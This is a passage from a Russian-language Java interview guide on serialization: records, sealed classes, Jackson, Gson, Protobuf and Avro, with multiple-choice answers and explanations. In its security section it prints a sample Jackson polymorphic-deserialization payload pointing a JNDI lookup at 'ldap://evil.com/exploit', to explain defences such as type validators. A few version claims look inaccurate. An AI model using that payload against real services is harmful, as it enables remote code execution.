> - [ ] Достаточно использовать HTTPS на endpoint'ах с десериализацией — TLS защищает от RCE | TLS защищает **transport** (от MITM), но gadget chain работает в **plaintext payload** уже после расшифровки. RCE проходит. ❌ ПОСЛЕДСТВИЕ: сервис банка имеет TLS+mTLS, но ObjectInputStream без фильтра → инсайдер с легитимным сертификатом эксплуатирует RCE, утечка 5M записей.
> - [x] Defense in depth: 1) **не использовать Java Serialization** для внешних данных (JSON/Protobuf); 2) `ObjectInputFilter` whitelist; 3) Serialization Proxy Pattern; 4) удалить gadget-библиотеки; 5) JFR-мониторинг; 6) RASP/WAF | Никакой одной серебряной пули — нужна layered defense. Главное правило — **избегать** binary deserialization для untrusted input. ✓ ПРИМЕНЯТЬ: OWASP Cheat Sheet «Deserialization» рекомендует именно этот стек; Spring Security Boot 3.2+ активирует фильтр по умолчанию. 📋 ПРАВИЛО: «Не десериализуй — лучшая защита; если нужно — фильтр + proxy + monitoring». 🔗 См. Q15, Q17, Q33.
> - [ ] Заменить `ObjectInputStream` на `XMLDecoder` — XML-сериализация безопасна | `XMLDecoder` ещё **опаснее**: позволяет вызывать произвольные методы через `<void method="exec">` — это known RCE-vector. ❌ ПОСЛЕДСТВИЕ: команда мигрирует с binary на `XMLDecoder` думая что XML «текстовый и безопасный» → CVE-2017-3506, удалённый exec через single HTTP POST.
> - [ ] Снизить `Xmx` до 512MB — это автоматически предотвратит deserialization bomb | Bomb срабатывает на CPU (вычисление хэшей), а не только на памяти; маленький heap лишь меняет симптом с OOM на TLAB-thrashing + `StackOverflow`. ❌ ПОСЛЕДСТВИЕ: тимлид режет heap «для защиты» → нормальные операции (отчёты, batch) валятся OOM, ничто не защищено от gadget chain.

## Q19. (!) Как сериализуются `record` классы в `Java`?

`Record` (Java 16+) по умолчанию **не** реализует `Serializable`. Если добавить `implements Serializable`, механизм сериализации record отличается от обычных классов:

1. Сериализуются **только компоненты** record (то есть поля, объявленные в заголовке)
2. При десериализации используется **канонический конструктор** (а не рефлексия для полей!)
3. Кастомные `writeObject`/`readObject` **игнорируются**
4. `writeReplace`/`readResolve` работают

```java
public record Point(int x, int y) implements Serializable {
    // serialVersionUID рекомендуется для стабильности
    @java.io.Serial
    private static final long serialVersionUID = 1L;

    // Канонический конструктор — вызывается при десериализации!
    public Point {
        if (x < 0 || y < 0) throw new IllegalArgumentException("negative");
    }
}
```

**Преимущества record для сериализации:**
- Валидация в каноническом конструкторе выполняется и при десериализации (в отличие от обычных классов!)
- Нет проблем с `final` полями
- Фактически record реализует Serialization Proxy Pattern «из коробки»
- Аннотация `@java.io.Serial` (Java 14+) позволяет IDE проверять корректность сигнатур

Это делает `record` **самым безопасным** способом стандартной Java-сериализации.


> [!mcq]
> - [ ] `Record` сериализуется идентично обычному классу: рефлексия по полям, кастомные `writeObject`/`readObject` работают | Отличия существенные: десериализация идёт **через канонический конструктор** (не рефлексией!), кастомные `writeObject`/`readObject` **игнорируются**. ❌ ПОСЛЕДСТВИЕ: разработчик добавляет `writeObject` в record для шифрования → метод игнорируется JVM, секреты пишутся в Redis в plaintext, security-аудит фиксирует утечку.
> - [ ] `Record` автоматически implements `Serializable` без явного объявления | `Record` **не** implements `Serializable` по умолчанию — нужно явно `record Foo() implements Serializable {}`. ❌ ПОСЛЕДСТВИЕ: команда переезжает с класса на record, забывает добавить `implements Serializable` → `NotSerializableException` на проде, рассылка уведомлений падает.
> - [x] Сериализуются **только компоненты** record; десериализация идёт через **канонический конструктор** (валидация автоматически работает!); кастомные `writeObject/readObject` игнорируются; `writeReplace/readResolve` работают; рекомендуется `@java.io.Serial private static final long serialVersionUID` | Канонический ctor исполняется = валидация в `compact constructor` срабатывает = record де-факто реализует Serialization Proxy Pattern. ✓ ПРИМЕНЯТЬ: Spring Boot 3.x DTOs как `record` — самый безопасный способ Java-сериализации. 📋 ПРАВИЛО: «Record + canonical ctor = Serialization Proxy из коробки». 🔗 См. Q3, Q11, Q13.
> - [ ] У record каждый компонент должен явно реализовать `Serializable`, иначе компилятор откажется собрать | Компилятор не проверяет — это runtime-ошибка `NotSerializableException`. И касается она всех `Serializable`-классов, не только record. ❌ ПОСЛЕДСТВИЕ: разработчик ожидает compile-time проверку → не пишет тест на сериализацию → `NotSerializableException` ловится в проде через час после релиза.

## Q20. Как работает сериализация с `sealed` классами?

`Sealed` классы (Java 17+) ограничивают множество подклассов через `permits`. С точки зрения сериализации sealed-классы работают как обычные, но дают дополнительную безопасность:

```java
public sealed interface Shape extends Serializable
    permits Circle, Rectangle {
}

public record Circle(double radius) implements Shape {}
public record Rectangle(double width, double height) implements Shape {}
```

**Преимущества для сериализации:**
- `ObjectInputFilter` может использовать sealed-иерархию для точного белого списка — вместо `com.example.*` можно перечислить конкретные `permits`-классы
- Компилятор гарантирует, что новые подтипы не появятся незаметно
- В сочетании с `record` — максимальная безопасность: `sealed record` проходит валидацию через канонический конструктор

**Нюанс**: при JSON-сериализации (`Jackson`) для sealed-иерархий нужен дискриминатор типов (`@JsonTypeInfo`), иначе десериализатор не знает, какой из `permits`-классов создавать.


> [!mcq]
> - [x] `Sealed` работает как обычный класс при сериализации, но даёт **точный whitelist для `ObjectInputFilter`**: вместо `com.example.*` можно перечислить только `permits`-классы; для JSON нужен `@JsonTypeInfo` (Jackson сам не понимает `permits`) | Компилятор гарантирует закрытость иерархии = security-фильтр становится исчерпывающим. ✓ ПРИМЕНЯТЬ: API Gateway, обрабатывающий polymorphic events: `sealed interface Event permits OrderCreated, PaymentReceived`. 📋 ПРАВИЛО: «Sealed = exhaustive whitelist для ObjectInputFilter». 🔗 См. Q17, Q19, Q23.
> - [ ] `Sealed` нельзя сериализовать через стандартный `Serializable` — компилятор запрещает | Запрета нет: `sealed interface X extends Serializable permits A, B` валидно. ❌ ПОСЛЕДСТВИЕ: команда не использует sealed для doменных событий думая что нельзя сериализовать → теряет exhaustive pattern matching, switch-выражения с `default` маскируют баги.
> - [ ] `Sealed` автоматически добавляет дискриминатор типа в Jackson-JSON через `permits` | Jackson **не** использует `permits`-метаданные — нужен явный `@JsonTypeInfo` + `@JsonSubTypes` либо новый Jackson 2.16+ модуль `jackson-module-blackbird` с deduce-стратегией. ❌ ПОСЛЕДСТВИЕ: команда полагается на «магию sealed» → JSON приходит без поля `type`, deserialize в `null`, downstream сервис падает с NPE.
> - [ ] `Sealed` запрещает добавление новых подклассов после релиза, поэтому сериализация sealed-иерархии форвард-несовместима | Совместимость зависит от того, добавили подкласс в `permits` или нет. Сериализация по совместимости работает как у обычных Serializable-классов. ❌ ПОСЛЕДСТВИЕ: тимлид запрещает sealed «из-за совместимости» → команда теряет преимущества exhaustive matching, продолжает использовать `instanceof`-цепочки.

## Q21. (!) Как работает `Jackson` и его основные аннотации?

`Jackson` — де-факто стандартная библиотека JSON-сериализации в Java-экосистеме (используется в `Spring Boot`, `Quarkus`, `Micronaut`). Центральный класс — `ObjectMapper`.

```java
ObjectMapper mapper = new ObjectMapper();

// Сериализация
String json = mapper.writeValueAsString(user);

// Десериализация
User user = mapper.readValue(json, User.class);
```

Ключевые аннотации:

| Аннотация | Назначение |
|-----------|-----------|
| `@JsonProperty("name")` | Задаёт имя поля в JSON |
| `@JsonIgnore` | Исключить поле |
| `@JsonIgnoreProperties` | Игнорировать неизвестные поля |
| `@JsonInclude(NON_NULL)` | Не включать null-поля |
| `@JsonCreator` | Пометить конструктор/фабричный метод для десериализации |
| `@JsonFormat` | Формат даты/числа |
| `@JsonSerialize` / `@JsonDeserialize` | Кастомные сериализаторы |
| `@JsonTypeInfo` | Полиморфная десериализация |
| `@JsonSubTypes` | Перечисление подтипов |

```java
@JsonIgnoreProperties(ignoreUnknown = true)
public class UserDto {
    @JsonProperty("user_name")
    private String name;

    @JsonFormat(pattern = "yyyy-MM-dd")
    private LocalDate birthDate;

    @JsonInclude(JsonInclude.Include.NON_NULL)
    private String middleName;

    @JsonCreator
    public UserDto(@JsonProperty("user_name") String name) {
        this.name = Objects.requireNonNull(name);
    }
}
```


> [!mcq]
> - [ ] `ObjectMapper` — потокоНЕбезопасный, нужен один экземпляр на запрос | `ObjectMapper` **thread-safe** после конфигурации; рекомендуется один singleton на приложение (или Spring-bean). Создание per-request — anti-pattern. ❌ ПОСЛЕДСТВИЕ: команда создаёт `new ObjectMapper()` в контроллере на каждый запрос → 30% CPU тратится на init, p99 latency 200ms вместо 20ms.
> - [ ] `@JsonIgnore` исключает поле только при сериализации, при десериализации поле всё равно читается | `@JsonIgnore` действует в **обе** стороны (read+write). Для односторонней нужно `@JsonProperty(access = READ_ONLY/WRITE_ONLY)` или `@JsonIgnoreProperties` на классе. ❌ ПОСЛЕДСТВИЕ: разработчик ставит `@JsonIgnore` на пароль ожидая что десериализация всё ещё читает → API не принимает пароль с фронта, пользователи не могут логиниться.
> - [ ] `@JsonCreator` нужен только для record-классов; для обычных Jackson сам находит конструктор | Наоборот: для record (Jackson 2.12+) — автоматически; для обычных immutable классов с не-default ctor — явный `@JsonCreator` обязателен (или `-parameters` в javac). ❌ ПОСЛЕДСТВИЕ: команда использует Lombok `@Value` без `@JsonCreator` → Jackson не может десериализовать, фронт получает `400 Bad Request`, фича падает на демо.
> - [x] Центральный класс `ObjectMapper` (thread-safe singleton); сериализация — `writeValueAsString`, десериализация — `readValue`; ключевые аннотации: `@JsonProperty`, `@JsonIgnore`, `@JsonInclude(NON_NULL)`, `@JsonCreator`, `@JsonFormat`, `@JsonTypeInfo` для полиморфизма | Jackson — стандарт в Spring Boot/Quarkus/Micronaut; data-binding через рефлексию + аннотации. ✓ ПРИМЕНЯТЬ: Netflix Eureka, Spring Cloud Gateway — все используют Jackson через автоконфиг Spring Boot. 📋 ПРАВИЛО: «`ObjectMapper` — singleton; аннотации настраивают маппинг». 🔗 См. Q22, Q23, Q24.

## Q22. Чем `Jackson` отличается от `Gson`?

| Характеристика | `Jackson` | `Gson` |
|----------------|-----------|--------|
| Производительность | Быстрее (потоковый парсинг) | Медленнее |
| Экосистема | Огромная (XML, YAML, CBOR, Avro...) | Только JSON |
| Spring Boot | Встроен по умолчанию | Нужно подключать |
| Аннотации | Богатый набор (`@JsonTypeInfo`, `@JsonView`...) | Минимальный |
| Immutable объекты | `@JsonCreator` + `@JsonProperty` | Требует `TypeAdapter` |
| `record` поддержка | Полная (с 2.12+) | Ограниченная |
| Размер | ~1.7 MB (core + annotations + databind) | ~250 KB |
| Обработка дженериков | `TypeReference<List<User>>()` | `TypeToken<List<User>>()` |
| Null handling | Гибкий (`@JsonInclude`) | `serializeNulls()` |

```java
// Jackson
ObjectMapper mapper = new ObjectMapper();
List<User> users = mapper.readValue(json, new TypeReference<List<User>>() {});

// Gson
Gson gson = new Gson();
List<User> users = gson.fromJson(json, new TypeToken<List<User>>() {}.getType());
```

**Когда выбрать `Gson`:** маленький проект без Spring, нужна простая JSON-сериализация, важен размер зависимости (мобильные приложения, Android).

**Когда выбрать `Jackson`:** Spring Boot проект, нужна работа с XML/YAML, полиморфизм, streaming API, высокая производительность.


> [!mcq]
> - [ ] `Gson` быстрее `Jackson` благодаря отсутствию аннотаций | Gson **медленнее** в большинстве бенчмарков (Jackson — потоковый парсинг + кэширование рефлексии). Gson проще API, но не быстрее. ❌ ПОСЛЕДСТВИЕ: тимлид мигрирует Spring Boot с Jackson на Gson «ради скорости» → p99 latency растёт с 20ms до 60ms, RPS падает на 30%, откат миграции.
> - [x] **Jackson**: быстрее (streaming), огромная экосистема (XML/YAML/CBOR/Avro), встроен в Spring Boot, полная поддержка `record` с 2.12+, ~1.7MB. **Gson**: медленнее, только JSON, минимальные аннотации, ~250KB | Выбор: Spring Boot или сложная экосистема → Jackson; Android/маленький размер → Gson. ✓ ПРИМЕНЯТЬ: Android-приложения (LinkedIn mobile) предпочитают Gson из-за размера; backend Spring проекты — Jackson. 📋 ПРАВИЛО: «Spring/microservices = Jackson; Android/маленький бандл = Gson». 🔗 См. Q21, Q38, Q24.
> - [ ] `Gson` поддерживает `record` лучше `Jackson` | Наоборот: `Jackson` 2.12+ имеет полную нативную поддержку record (канонический ctor + `@JsonProperty` на компонентах); `Gson` требует custom `TypeAdapter`. ❌ ПОСЛЕДСТВИЕ: команда выбирает Gson на Java 17 проекте «ради простоты» → пишет TypeAdapter для каждого record, в 5 раз больше boilerplate.
> - [ ] `Gson` встроен в Spring Boot по умолчанию вместо `Jackson` начиная с Spring Boot 3.0 | По умолчанию **Jackson** через `spring-boot-starter-json`. Чтобы перейти на Gson, нужно явно исключить Jackson и подключить `gson` + конфигурацию. ❌ ПОСЛЕДСТВИЕ: разработчик добавляет Gson зависимость думая что Spring сам выберет → оба парсера работают одновременно, JSON dates сериализуются разно, фронт ловит ошибки парсинга.

## Q23. Как обрабатывать полиморфизм при JSON-сериализации в `Jackson`?

Полиморфная десериализация — ключевая задача, когда JSON содержит объекты разных подтипов. `Jackson` поддерживает несколько стратегий через `@JsonTypeInfo`.

```java
@JsonTypeInfo(
    use = JsonTypeInfo.Id.NAME,
    include = JsonTypeInfo.As.PROPERTY,
    property = "type"
)
@JsonSubTypes({
    @JsonSubTypes.Type(value = Circle.class, name = "circle"),
    @JsonSubTypes.Type(value = Rectangle.class, name = "rectangle")
})
public abstract class Shape {
    public abstract double area();
}

public class Circle extends Shape {
    public double radius;
    public double area() { return Math.PI * radius * radius; }
}

public class Rectangle extends Shape {
    public double width, height;
    public double area() { return width * height; }
}
```

Результат JSON:
```json
{"type": "circle", "radius": 5.0}
{"type": "rectangle", "width": 3.0, "height": 4.0}
```

Стратегии включения типа (`JsonTypeInfo.As`):
- `PROPERTY` — отдельное поле в JSON (`"type": "circle"`)
- `WRAPPER_OBJECT` — объект обёрнут: `{"circle": {"radius": 5}}`
- `WRAPPER_ARRAY` — массив: `["circle", {"radius": 5}]`
- `EXISTING_PROPERTY` — использовать существующее поле класса


> [!mcq]
> - [ ] Использовать `JsonTypeInfo.Id.CLASS` с `@JsonTypeInfo` — самый гибкий способ для production | `Id.CLASS` **опасен**: атакующий подсовывает `com.sun.rowset.JdbcRowSetImpl` с JNDI-payload → RCE. Используйте `Id.NAME` + `@JsonSubTypes` whitelist. ❌ ПОСЛЕДСТВИЕ: команда настраивает `Id.CLASS` для удобства → CVE-2017-7525 эксплуатируется через user input, RCE как у Equifax.
> - [x] `@JsonTypeInfo(use=Id.NAME, property="type")` + `@JsonSubTypes({@Type(value=Circle.class, name="circle")...})` для whitelist; стратегии include: `PROPERTY` (`"type":"circle"`), `WRAPPER_OBJECT`, `WRAPPER_ARRAY`, `EXISTING_PROPERTY` | Whitelist через `@JsonSubTypes` гарантирует что десериализуются только разрешённые классы. ✓ ПРИМЕНЯТЬ: Spring Cloud Stream events с polymorphic payload — DLT/event-bus сценарии. 📋 ПРАВИЛО: «`Id.NAME` + `@JsonSubTypes` whitelist; никогда `Id.CLASS` для untrusted». 🔗 См. Q21, Q25, Q33.
> - [ ] Полиморфизм работает в Jackson «из коробки» — достаточно extends/implements, дискриминатор не нужен | Без дискриминатора Jackson не знает какой подкласс создать → `JsonMappingException: Cannot construct instance of abstract class`. ❌ ПОСЛЕДСТВИЕ: команда пушит endpoint с `List<Shape>` без `@JsonTypeInfo` → 500-ошибки на каждый second-level deserialize, фронт показывает infinite spinner.
> - [ ] Каждый подкласс должен иметь свой `JsonDeserializer` через `@JsonDeserialize(using=...)`, иначе полиморфизм не работает | Custom deserializer — overkill: достаточно `@JsonTypeInfo` + `@JsonSubTypes` (декларативно). Custom deserializer нужен только для нестандартных кейсов. ❌ ПОСЛЕДСТВИЕ: команда пишет 10 custom deserializer'ов вместо двух аннотаций → maintenance burden, при добавлении нового подкласса забывают зарегистрировать → `null` в продакшене.

## Q24. Как настроить кастомный сериализатор/десериализатор в `Jackson`?

Когда стандартных аннотаций недостаточно, `Jackson` позволяет создать полностью кастомную логику через `JsonSerializer`/`JsonDeserializer`.

```java
// Кастомный сериализатор
public class MoneySerializer extends JsonSerializer<Money> {
    @Override
    public void serialize(Money value, JsonGenerator gen,
                          SerializerProvider provider) throws IOException {
        gen.writeStartObject();
        gen.writeNumberField("amount", value.getAmount());
        gen.writeStringField("currency", value.getCurrency().getCurrencyCode());
        gen.writeEndObject();
    }
}

// Кастомный десериализатор
public class MoneyDeserializer extends JsonDeserializer<Money> {
    @Override
    public Money deserialize(JsonParser p, DeserializationContext ctx)
            throws IOException {
        JsonNode node = p.getCodec().readTree(p);
        BigDecimal amount = node.get("amount").decimalValue();
        String currency = node.get("currency").asText();
        return Money.of(amount, currency);
    }
}

// Регистрация
@JsonSerialize(using = MoneySerializer.class)
@JsonDeserialize(using = MoneyDeserializer.class)
public class Money { /* ... */ }

// Или через модуль
SimpleModule module = new SimpleModule();
module.addSerializer(Money.class, new MoneySerializer());
module.addDeserializer(Money.class, new MoneyDeserializer());
mapper.registerModule(module);
```


> [!mcq]
> - [x] Расширить `JsonSerializer<T>`/`JsonDeserializer<T>` (методы `serialize`/`deserialize`); зарегистрировать через `@JsonSerialize(using=...)` на классе или `SimpleModule.addSerializer()` + `mapper.registerModule(module)` | Module-подход переиспользуемый и чище для cross-project: один модуль на все типы доменной библиотеки. ✓ ПРИМЕНЯТЬ: `jackson-datatype-jsr310` — модуль для `LocalDate/Instant`, `jackson-datatype-jdk8` для `Optional`. 📋 ПРАВИЛО: «Класс — `@JsonSerialize`; library-уровень — Module». 🔗 См. Q21, Q24, Q23.
> - [ ] Использовать `Function<Money, String>` через `@JsonSerialize(converter=...)` — это и есть кастомный сериализатор | `converter=` принимает `Converter<IN,OUT>` (преобразование TO POJO), а не `Function`. Кастомная **сериализация** — это `JsonSerializer`, не converter. ❌ ПОСЛЕДСТВИЕ: разработчик путает converter с serializer → формат `Money` ломается под нагрузкой race-conditions, биллинг показывает `0.0` вместо реальных сумм.
> - [ ] Достаточно реализовать `Iterable<JsonField>` в самом доменном классе | Jackson не использует никакого `Iterable<JsonField>` интерфейса. Десериализация — через рефлексию + аннотации или custom deserializer. ❌ ПОСЛЕДСТВИЕ: разработчик добавляет fake интерфейс → Jackson игнорирует, формат JSON не меняется, тесты зелёные локально (с дефолтным маппингом), синтетический CI ловит баг.
> - [ ] Кастомный сериализатор работает только если класс implements `Serializable` | `JsonSerializer` работает с любыми классами (POJO, record, enum) — никакого `Serializable` не требуется. Это разные механизмы. ❌ ПОСЛЕДСТВИЕ: команда добавляет `implements Serializable` ради Jackson → расширяет attack surface (RCE через ObjectInputStream если кто-то накопит данные через стандартную сериализацию).

## Q25. Какие проблемы безопасности есть у JSON-десериализации?

Хотя JSON-десериализация значительно безопаснее Java Serialization, у неё тоже есть риски:

**1. Полиморфная десериализация в `Jackson`** — если включён `DefaultTyping` или `@JsonTypeInfo` с неограниченным `JsonTypeInfo.Id.CLASS`, атакующий может подставить в JSON произвольный класс:

```json
{"@class": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://evil.com/exploit"}
```

Поэтому в `Jackson` 2.10+ `DefaultTyping` отключён по умолчанию и добавлен `PolymorphicTypeValidator`:

```java
ObjectMapper mapper = JsonMapper.builder()
    .activateDefaultTyping(
        BasicPolymorphicTypeValidator.builder()
            .allowIfSubType("com.example.dto")
            .build(),
        DefaultTyping.NON_FINAL
    )
    .build();
```

**2. Denial of Service** — глубоко вложенный JSON может вызвать `StackOverflowError`. `Jackson` позволяет ограничить глубину: `mapper.getFactory().setStreamReadConstraints(...)`.

**3. Billion Laughs** (XML Entity Expansion) — актуально для XML-парсеров, но `Jackson` XML по умолчанию защищён.


> [!mcq]
> - [ ] JSON безопасен полностью — RCE невозможен, потому что нет произвольного кода | RCE возможен через **полиморфную десериализацию** в Jackson с `DefaultTyping`/`Id.CLASS`: `{"@class":"com.sun.rowset.JdbcRowSetImpl",...}` → JNDI lookup на attacker-server. ❌ ПОСЛЕДСТВИЕ: тимлид «JSON безопасен» отключает аудит → CVE-2017-7525 эксплуатируется через user input, миллион пользователей PII утекает.
> - [ ] DoS невозможен через JSON — `Jackson` сам ограничивает глубину парсинга | Раньше — нет; в `Jackson` 2.15+ добавлены `StreamReadConstraints` (max nesting=1000). До этого — глубокий JSON вызывал `StackOverflowError`. ❌ ПОСЛЕДСТВИЕ: проект на Jackson 2.13 не настраивает лимиты → атакующий шлёт JSON с 100K вложенных `{}` → SO error в треде, request leak, downtime.
> - [ ] Достаточно использовать `@JsonIgnoreProperties(ignoreUnknown=true)` чтобы защититься от всех уязвимостей | Это защищает только от `UnrecognizedPropertyException`, не от RCE/DoS/polymorphic injection. ❌ ПОСЛЕДСТВИЕ: команда считает себя защищёнными → не настраивает `PolymorphicTypeValidator`, RCE через `@class` проходит.
> - [x] **Polymorphic RCE** через `DefaultTyping`/`Id.CLASS` (Jackson 2.10+ отключил по умолчанию, добавлен `PolymorphicTypeValidator`); **DoS** через глубоко вложенный JSON (`StackOverflowError`, лечится `StreamReadConstraints`); **Billion Laughs** для XML-парсеров | Защита: `BasicPolymorphicTypeValidator.builder().allowIfSubType(...)`, ограничение глубины, `@JsonTypeInfo(use=Id.NAME)` whitelist. ✓ ПРИМЕНЯТЬ: Spring Boot 2.10+ обновил Jackson, активация `DefaultTyping` теперь требует явного `PolymorphicTypeValidator`. 📋 ПРАВИЛО: «`Id.NAME` + whitelist; никогда `DefaultTyping` без validator». 🔗 См. Q23, Q33, Q15.

## Q26. (!) Что такое `Protocol Buffers` и когда их использовать?

`Protocol Buffers` (`Protobuf`) — бинарный формат сериализации от Google со строгой схемой. Схема описывается в `.proto` файлах, из которых генерируется код для целевого языка.

```protobuf
syntax = "proto3";

message User {
  string name = 1;    // числовые теги, а не имена
  int32 age = 2;
  repeated string roles = 3;

  enum Status {
    ACTIVE = 0;
    INACTIVE = 1;
  }
  Status status = 4;
}
```

```java
// Сгенерированный код (автоматически)
User user = User.newBuilder()
    .setName("Alice")
    .setAge(30)
    .addRoles("admin")
    .setStatus(User.Status.ACTIVE)
    .build();

byte[] bytes = user.toByteArray();         // сериализация
User parsed = User.parseFrom(bytes);       // десериализация
```

| Характеристика | Protobuf | Java Serialization | JSON |
|----------------|----------|-------------------|------|
| Размер | Очень маленький | Большой | Средний |
| Скорость | Очень быстрая | Медленная | Средняя |
| Межъязыковость | Да (10+ языков) | Нет (только JVM) | Да |
| Человекочитаемость | Нет | Нет | Да |
| Схема | Обязательна (.proto) | Нет (класс = схема) | Опциональна (JSON Schema) |
| Эволюция | Отличная (backward/forward) | Плохая | Средняя |

Используется в [Kafka](../../messaging/kafka-interview.md), `gRPC`, внутренних API между микросервисами.


> [!mcq]
>
> **Вопрос:** Что такое `Protocol Buffers` (Protobuf) от Google и какие у них ключевые свойства?
>
> ---
>
> #### A) Protobuf — это текстовый формат с XML-подобным синтаксисом, схема пишется в `.xml` файлах — ❌ Неверно
>
> **Что на самом деле:** Protobuf — это **бинарный** формат. Схема описывается в `.proto` файлах с собственным DSL (не XML), а wire-формат — компактная последовательность tag-length-value байт. Текстовый XML-аналог — это Protobuf Text Format для отладки, но wire-протокол всегда бинарный.
>
> **Откуда путаница:** разработчики, пришедшие из SOAP/XML-мира, ассоциируют «схема + контракт» с XML Schema. Реально Protobuf ближе к ASN.1 — компактное бинарное кодирование с явной схемой.
>
> **Если бы это было правдой:** gRPC терял бы своё преимущество в скорости — XML парсинг в 10-100× медленнее tag-decoding в Protobuf. Netflix не выбрал бы gRPC для inter-service калибровок при 100K RPS.
>
> ---
>
> #### B) Protobuf требует, чтобы клиент и сервер использовали одну и ту же версию схемы — несовместимые версии падают с runtime ошибкой — ❌ Неверно
>
> **Что на самом деле:** одно из главных достоинств Protobuf — **forward и backward compatibility** при правильном использовании. Старый клиент читает новые сообщения, игнорируя неизвестные поля (по тегу). Новый клиент читает старые, получая default-значения для новых полей. Ключевые правила: не менять числовой тег, не менять тип поля, использовать `reserved` для удалённых тегов.
>
> **Откуда путаница:** аналогия с Java Serialization, где смена `serialVersionUID` ломает совместимость. В Protobuf совместимость определяется тегами, а не hash от структуры.
>
> **Если бы это было правдой:** rolling deploy в Kubernetes стал бы невозможен — нельзя было бы иметь в кластере одновременно v1 и v2 pods. Google внутренне не смог бы поддерживать тысячи сервисов с разной cadence релизов.
>
> ---
>
> #### C) Protobuf хранит имена полей в каждом сообщении — JSON-подобная самоописываемость — ❌ Неверно
>
> **Что на самом деле:** Protobuf пишет **только числовой тег** (varint) + значение. Имя поля живёт ТОЛЬКО в `.proto` файле и сгенерированном коде. Именно поэтому формат компактнее JSON в 3-10 раз: для поля `user_name` JSON шлёт строку «user_name», Protobuf — один байт `0x0A` (тег=1, type=length-delimited).
>
> **Откуда путаница:** Avro кодирует с привязкой к schema (где имена есть), и многие путают Avro и Protobuf. Avro может хранить полную schema рядом с данными, Protobuf — никогда.
>
> **Если бы это было правдой:** Protobuf терял бы преимущество в размере над JSON. Никто бы не выбрал его для Kafka events на 1M msg/s — лишний overhead имён уничтожил бы пропускную способность.
>
> ---
>
> #### D) Бинарный формат от Google со строгой схемой в `.proto` файлах; числовые теги вместо имён полей (компактность 3-10× к JSON); кодогенерация для 10+ языков; отличная forward/backward совместимость через `reserved` теги — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> Protobuf проектировался Google для внутренних RPC при гигантских масштабах. Каждое поле в `.proto` имеет уникальный числовой тег (1-15 кодируются 1 байтом). Wire-format: `<tag, wire_type><value>`. Wire-types — varint, 64-bit, length-delimited, 32-bit. Decoder читает tag, ищет в сгенерированном классе соответствующий setter, парсит значение по wire-type. Незнакомые теги пропускаются — это и есть основа forward compatibility.
>
> Совместимость держится на правилах: (1) никогда не менять тег существующего поля; (2) никогда не менять тип поля несовместимым образом (int32→string запрещено, int32→int64 ограниченно совместимо); (3) при удалении поля использовать `reserved 5;` чтобы тег нельзя было переиспользовать.
>
> **Пример:**
> ```protobuf
> syntax = "proto3";
> package example;
>
> message User {
>   string name = 1;
>   int32 age = 2;
>   reserved 3, 4;         // удалённые теги защищены
>   repeated string roles = 5;
>   enum Status { ACTIVE = 0; INACTIVE = 1; }
>   Status status = 6;
> }
> ```
>
> ```java
> User user = User.newBuilder()
>     .setName("Alice").setAge(30)
>     .addRoles("admin").setStatus(User.Status.ACTIVE)
>     .build();
>
> byte[] bytes = user.toByteArray();        // 18 байт
> User parsed = User.parseFrom(bytes);      // forward-compat parsing
> ```
>
> **Когда применять:**
> - **gRPC** — Google Cloud, Istio service mesh, Envoy data plane.
> - **Kafka events** с обязательной schema — Uber, Lyft используют Protobuf + Confluent Schema Registry для billion-events/day pipelines.
> - **Mobile↔backend** — Twitter API использует Protobuf для нативных клиентов (экономия трафика и батареи).
> - **Внутренние API между микросервисами** — типичный выбор когда нужна performance + строгий контракт.
>
> **Подводные камни:**
> - **Числовые теги — навсегда**: если случайно переиспользовать удалённый тег для нового поля, старые клиенты прочитают мусор. Всегда `reserved`.
> - **`proto3` `optional`**: в proto3 примитивы не отличают «не задано» от «дефолт» (0/false/""). С Protobuf 3.15+ можно вернуть `optional` для явного нуллируемости.
> - **Большие enum**: добавление нового enum-value в proto3 — backward compat ОК, но старый клиент получит default (0) если не знает значения. Закладывать `UNKNOWN = 0` в каждый enum.
> - **`Any` type** — гибкий, но теряет type safety. Для полиморфных сообщений лучше `oneof`.
>
> **Связанные вопросы:** [[Q27]] — сравнение с Apache Avro; [[Q29]] — выбор формата под use case; [[Q31]] — версионирование схем в микросервисах.

## Q27. Что такое `Apache Avro` и чем он отличается от `Protobuf`?

`Apache Avro` — бинарный формат сериализации, ориентированный на `Hadoop`-экосистему и потоковую обработку данных. Главное отличие от `Protobuf` — **схема хранится вместе с данными**.

```json
{
  "type": "record",
  "name": "User",
  "fields": [
    {"name": "name", "type": "string"},
    {"name": "age", "type": "int"},
    {"name": "email", "type": ["null", "string"], "default": null}
  ]
}
```

| Характеристика | Avro | Protobuf |
|----------------|------|----------|
| Схема | JSON, хранится с данными | `.proto`, нужна обоим сторонам |
| Кодогенерация | Опциональна (динамическая схема) | Обязательна |
| Эволюция схемы | Reader/Writer schema negotiation | Backward/Forward compatible |
| Экосистема | Hadoop, Kafka, Schema Registry | gRPC, Google Cloud |
| Размер сообщения | Компактный (без тегов полей) | Компактный (с тегами) |
| Лучший сценарий | Потоковая обработка, Data Lake | RPC, API между сервисами |

`Avro` особенно популярен в связке с `Confluent Schema Registry` и [Apache Kafka](../../messaging/kafka-interview.md) для эволюции схем событий.


> [!mcq]
>
> **Вопрос:** В чём ключевое отличие Apache Avro от Protocol Buffers и где Avro предпочтительнее?
>
> ---
>
> #### A) Avro описывает схему в JSON, при сериализации writer-schema хранится **с данными** (в файле) или регистрируется в Schema Registry (для Kafka); reader-schema согласуется с writer через schema resolution — это даёт лучшую эволюцию для долгоживущих данных в Data Lake — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> Avro изначально проектировался для Hadoop: писать петабайты данных, читать через годы возможно другой версией приложения. Ключевая идея — **schema-data binding**. Файл `.avro` содержит блок с writer-schema в header, потом записи без имён полей (как Protobuf — компактно). Reader при чтении использует свою schema и применяет правила resolution: совпадающие поля по имени маппятся, missing поля у reader получают default, неизвестные у writer — пропускаются.
>
> Для Kafka схема не хранится в каждом сообщении (overhead!) — Confluent Schema Registry даёт каждой schema числовой ID (4 байта). Сообщение = `<magic-byte><schema-id><avro-payload>`. Producer регистрирует schema, consumer фетчит её по ID. Schema Registry умеет проверять совместимость (BACKWARD/FORWARD/FULL) при регистрации новой версии.
>
> Avro в отличие от Protobuf не использует числовые теги — поля идентифицируются по позиции в schema. Это значит, что schema reader **обязательна** для парсинга; в Protobuf же файл «само-понятен» по тегам.
>
> **Пример:**
> ```json
> {
>   "type": "record",
>   "name": "OrderEvent",
>   "namespace": "com.example.events",
>   "fields": [
>     {"name": "orderId", "type": "string"},
